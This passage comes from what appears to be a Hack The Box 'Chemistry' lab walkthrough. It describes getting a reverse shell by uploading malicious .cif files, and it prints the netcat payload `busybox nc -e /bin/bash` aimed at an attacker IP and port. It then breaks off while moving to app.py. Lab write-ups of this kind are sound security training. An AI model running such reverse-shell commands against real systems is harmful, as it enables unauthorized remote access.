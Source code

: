 Viewing each of our uploaded malicious .cif file gives us a reverse shell. The payload that gave us the shell was `busybox nc -e /bin/bash 10.10.14.36 4444`

![Shell](/assets/images/HTB%20-%20Chemistry/Shell%20Chemistry.png)

Great, now let's upgrade our shell to a fully interactive one

![Upgraded Shell](/assets/images/HTB%20-%20Chemistry/Upgraded%20Shell.png)

Looking at `app.py` we see the following
